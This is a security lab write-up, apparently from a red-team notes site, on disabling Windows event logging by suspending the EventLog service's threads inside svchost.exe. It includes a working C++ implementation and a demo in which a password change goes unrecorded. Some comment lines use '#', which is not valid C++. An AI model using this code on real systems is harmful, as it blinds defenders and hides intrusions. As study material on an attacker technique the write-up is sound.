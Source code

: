 # Disabling Windows Event Logs by Suspending EventLog Service Threads

This lab was inspired by an old post [Phant0m: Killing Windows Event Log](https://artofpwn.com/phant0m-killing-windows-event-log.html) by [@hlldz](https://twitter.com/hlldz) where he introduced a powershell tool [Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m), which disables Windows EventLog service by killing its threads hosted by the svchost.exe.

The purpose of this quick lab is to understand some of the inner workings of Invoke-Phant0m. In particular, I wanted to play around with Windows APIs related to retrieving a process ID that hosts a given service, thread enumeration, mapping threads to a particular service \(Windows Eventlog in this case\) hosted in the svchost.exe and so on. This would give me a better understanding of how I can target specific threads when I need to, I thought.

{% hint style="info" %}
Although this lab was inspired by @hlldz' post, you will notice that we implemented the same technique in a slightly different way by levarging different Windows APIs.
{% endhint %}

## Overview

Windows event logs are handled by `EventLog` service that is hosted by svchost.exe.

If we list svchost processes, we see a number of those:

![](../../.gitbook/assets/image%20%28577%29.png)

From the above screenshot, it's not clear which process actually hosts the `EventLog` service, but if we keep inspecting `svchost.exe` processes one by one in Process Hacker, we will eventually find the process hosting the `EventLog` service, which in my case it is `svchost.exe` with pid 2196:

![](../../.gitbook/assets/image%20%28572%29.png)

Note that we can find out the PID of the process that is hosting `EventLog`:

```csharp
Get-WmiObject -Class win32_service -Filter "name = 'eventlog'" | select -exp ProcessId
```

![](../../.gitbook/assets/image%20%28589%29.png)

If we look into svchost.exe threads for `EventLog`, we see there are a couple of threads of interest as highlighted in blue:

![](../../.gitbook/assets/image%20%28606%29.png)

Below shows that indeed, suspending the threas is enough to disable the EventLog service from registering any new events:

![](../../.gitbook/assets/suspended-threads-no-events%20%281%29.gif)

Based on the above, the main goal of this lab is to hack some code to find these threads and simply suspend them and disable windows event logging this way.

## Code

Below is the code for the technique that at a high level works like this:

1. Open a handle to Service Control Manager with `OpenSCManagerA`
2. Open a handle to EventLog service with `OpenServiceA`
3. Retrieve svchost.exe \(hosting EventLog\) process ID with `QueryServiceStatusEx`
4. Open a handle to the svchost.exe process \(from step 3\)
5. Get a list of loaded modules loaded by svchost.exe `EnumProcessModules`
6. Loop through the list of `svchost` loaded modules, retrieved in step 5, find their names with `GetModuleBaseName` and find the base address of the module `wevtsvc.dll` - this is the module containing `EventLog` service inner-workings
7. Get `wevtsvc.dll` module info with `GetModuleInformation`. It will return a structure with module's start address and its image size - we will need these details later, when determiing if `EventLog` service thread's fall into wevtsvc.dll module's memory space
8. Enumerate all the threads inside svchost.exe with `Thread32First` and `Thread32Next`
9. For each thread from step 8, retrieve the thread's start address with `NtQueryInformationThread`
10. For each thread from step 8, check if the thread's start address belongs to the `wevtsvc.dll` memory space inside svchost.exe
11. If thread's start address is inside the `wevtsvc.dll` memory space, this is our victim thread and we suspend it with `SuspendThread`
12. `EventLog` service is now disabled

```cpp
#include <iostream>
#include <Windows.h>
#include <Psapi.h>
#include <TlHelp32.h>
#include <dbghelp.h>
#include <winternl.h>

#pragma comment(lib, "DbgHelp")

using myNtQueryInformationThread = NTSTATUS(NTAPI*)(
	IN HANDLE          ThreadHandle,
	IN THREADINFOCLASS ThreadInformationClass,
	OUT PVOID          ThreadInformation,
	IN ULONG           ThreadInformationLength,
	OUT PULONG         ReturnLength
	);

int main()
{
	HANDLE serviceProcessHandle;
	HANDLE snapshotHandle;
	HANDLE threadHandle;

	HMODULE modules[256] = {};
	SIZE_T modulesSize = sizeof(modules);
	DWORD modulesSizeNeeded = 0;
	DWORD moduleNameSize = 0;
	SIZE_T modulesCount = 0;
	WCHAR remoteModuleName[128] = {};
	HMODULE serviceModule = NULL;
	MODULEINFO serviceModuleInfo = {};
	DWORD_PTR threadStartAddress = 0;
	DWORD bytesNeeded = 0;

	myNtQueryInformationThread NtQueryInformationThread = (myNtQueryInformationThread)(GetProcAddress(GetModuleHandleA("ntdll"), "NtQueryInformationThread"));

	THREADENTRY32 threadEntry;
	threadEntry.dwSize = sizeof(THREADENTRY32);

	SC_HANDLE sc = OpenSCManagerA(".", NULL, MAXIMUM_ALLOWED);
	SC_HANDLE service = OpenServiceA(sc, "EventLog", MAXIMUM_ALLOWED);

	SERVICE_STATUS_PROCESS serviceStatusProcess = {};

	# Get PID of svchost.exe that hosts EventLog service
	QueryServiceStatusEx(service, SC_STATUS_PROCESS_INFO, (LPBYTE)&serviceStatusProcess, sizeof(serviceStatusProcess), &bytesNeeded);
	DWORD servicePID = serviceStatusProcess.dwProcessId;

	# Open handle to the svchost.exe
	serviceProcessHandle = OpenProcess(MAXIMUM_ALLOWED, FALSE, servicePID);
	snapshotHandle = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	# Get a list of modules loaded by svchost.exe
	EnumProcessModules(serviceProcessHandle, modules, modulesSize, &modulesSizeNeeded);
	modulesCount = modulesSizeNeeded / sizeof(HMODULE);
	for (size_t i = 0; i < modulesCount; i++)
	{
		serviceModule = modules[i];

		# Get loaded module's name
		GetModuleBaseName(serviceProcessHandle, serviceModule, remoteModuleName, sizeof(remoteModuleName));

		if (wcscmp(remoteModuleName, L"wevtsvc.dll") == 0)
		{
			printf("Windows EventLog module %S at %p\n\n", remoteModuleName, serviceModule);
			GetModuleInformation(serviceProcessHandle, serviceModule, &serviceModuleInfo, sizeof(MODULEINFO));
		}
	}

	# Enumerate threads
	Thread32First(snapshotHandle, &threadEntry);
	while (Thread32Next(snapshotHandle, &threadEntry))
	{
		if (threadEntry.th32OwnerProcessID == servicePID)
		{
			threadHandle = OpenThread(MAXIMUM_ALLOWED, FALSE, threadEntry.th32ThreadID);
			NtQueryInformationThread(threadHandle, (THREADINFOCLASS)0x9, &threadStartAddress, sizeof(DWORD_PTR), NULL);
			
			# Check if thread's start address is inside wevtsvc.dll memory range
			if (threadStartAddress >= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll && threadStartAddress <= (DWORD_PTR)serviceModuleInfo.lpBaseOfDll + serviceModuleInfo.SizeOfImage)
			{
				printf("Suspending EventLog thread %d with start address %p\n", threadEntry.th32ThreadID, threadStartAddress);

				# Suspend EventLog service thread
				SuspendThread(threadHandle);
				Sleep(2000);
			}
		}
	}

	return 0;
}
```

## Demo

Below GIF illustrates:

* `net user ola ola` is executed and user's ola password is changed and an event `4724` logged at 6:55:30 PM
* 4 EventLog threads are suspended in svchost.exe \(PID 2196\)
* `net user ola ola` is executed again at 6:55:38 PM, but no new event `4724` is captured

![](../../.gitbook/assets/demo-suspending-eventlog-threads%20%281%29.gif)

## References

{% embed url="https://artofpwn.com/phant0m-killing-windows-event-log.html" %}

